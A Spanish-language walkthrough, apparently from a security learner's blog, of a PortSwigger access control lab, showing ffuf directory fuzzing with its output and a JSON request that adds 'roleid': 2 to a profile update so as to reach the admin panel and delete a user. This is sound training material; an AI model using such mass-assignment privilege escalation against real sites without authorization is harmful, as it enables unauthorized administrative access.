 ```yaml
---
title: "Access Control Vulnerabilities Lab 4"
date: 2024-12-04 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Access Control Vulnerabilities
tags:
  - Access Control Vulnerabilities
  - User role can be modified in user profile
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- User role can be modified in user profile

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene un `panel de administración` en `/admin`. Solo es accesible para `usuarios autenticados` con un `roleid` de `2`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`. Podemos `iniciar sesión` en tu nuestra cuenta con las siguientes credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_1.png)

Pulsamos en `My account` y nos logueamos con las credenciales `wiener:peter`

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_2.png)

`Fuzzeamos` rutas y encontramos una llamada `/admin`

```
# ffuf -c -t 20 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a0600100345e4df8263e5a700810033.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

ADMIN                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 63ms]
Admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 59ms]
Login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 67ms]
admin                   [Status: 401, Size: 2588, Words: 1053, Lines: 54, Duration: 61ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 56ms]
filter                  [Status: 200, Size: 10778, Words: 5080, Lines: 199, Duration: 63ms]
login                   [Status: 200, Size: 3051, Words: 1287, Lines: 63, Duration: 61ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
```

Si accedemos a `/admin` nos `muestra` este `mensaje`

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_3.png)

En la parte de `My account` vemos que podemos `actualizar` nuestro `email`

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_4.png)

Si `interceptamos` la `petición` mediante `Burpsuite` vemos esto

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_5.png)

Si `enviamos` la `petición`, esta es la `repuesta` que `recibimos`

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_6.png)

Podemos `enviar` este `payload` en el cual cambiamos nuestro `roleid` a `2` con el fin de `escalar privilegios`

```
{
	"email":"wiener@normal-user.net",
	"roleid": 2
}
```

Una vez `ascendido` nuestro `privilegio` ya podemos `acceder` a `/admin`, `borrar` al usuario `carlos` y `ascender` nuestro `privilegio`

![](/assets/img/Access-Control-Vulnerabilities-Lab-4/image_7.png)
